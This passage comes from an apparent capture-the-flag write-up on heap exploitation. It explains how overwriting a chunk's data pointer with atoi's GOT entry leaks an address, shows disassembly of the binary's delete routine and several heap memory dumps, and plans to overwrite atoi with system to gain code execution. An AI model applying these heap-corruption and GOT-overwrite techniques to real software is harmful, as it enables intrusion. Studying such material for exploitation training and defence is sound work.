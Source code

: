 Ayyy! Chunk 9's data pointer was successfully overwritten with atoi's GOT entry. Now we can free chunk 9 which in return will print its data pointer. Notice how I overwrote the hardcoded string's address with atoi's GOT entry as well. That's because `delete` works in the following way:

```asm
						mov     qword [rbp-0x18], rdi
						mov     rax, qword [rbp-0x18]
						mov     rax, qword [rax+0x18]
						mov     esi, 0x401d61  {"Neonate\n"}
						mov     rdi, rax
						call    strcmp
						test    eax, eax
			          t - - - - -	jne     0x401593 - - - - - f
			          |					   |
	      mov     rax, qword [rbp-0x18]			mov     rax, qword [rbp-0x18]
	      mov     rax, qword [rax+0x8]			mov     rax, qword [rbp-0x18]
	      mov     rdi, rax				        mov     rdi, rax
	      call    mm_free					call    mm_free
```

If the hardcoded string isn't the hardcoded string afterall, it will just free the chunk itself and not the data pointer. That is a bypass we want to achieve otherwise it would free the GOT entry as well which would lead to a segfault (feel free to do the maths by yourself).

```
0x625210:	0x0000000000000061	0x0000000000000030 <-- chunk 9
0x625220:	0x0000000000000031	0x0000000000603098 <-- dataptr 9
0x625230:	0x0000000000000008	0x0000000000603098
0x625240:	0x0000000000000030	0x0000000000000041
```

As you can see chunk 9's `header` and `footer` fields got updated. We're good to go.

### _Pwning Time_

The heap state is a big mess at the moment but we can get RIP control if we just look at it careful enough.

```
0x625180:	0x0000000000000031	0x0000000000000031 <-- chunk 8
0x625190:	0x0000000000000051	0x00000000006251c0 <-- dataptr 8
0x6251a0:	0x0000000000000008	0x0000000000401d61
0x6251b0:	0x0000000000000031	0x0000000000000031 <-- new chunk
0x6251c0:	0x00000000000000a1	0x00000000006251f0 <-- new chunk dataptr
0x6251d0:	0x0000000000000008	0x0000000000401d61
0x6251e0:	0x0000000000000031	0x00000000000000b1
0x6251f0:	0x4646464646464646	0x4646464646464646
0x625200:	0x4646464646464646	0x4646464646464646
0x625210:	0x0000000000000061	0x0000000000000030 <-- chunk 9 [free]
0x625220:	0x0000000000000031	0x0000000000603098
0x625230:	0x0000000000000008	0x0000000000603098
0x625240:	0x0000000000000030	0x0000000000000041
```

What if we edit chunk 8's data pointer? It points to `0x6251c0` which is the new chunk's data! That way we can overwrite new chunk's data pointer with atoi's GOT entry and then call `edit` on the new chunk to overwrite `atoi` with `system`! Game over!
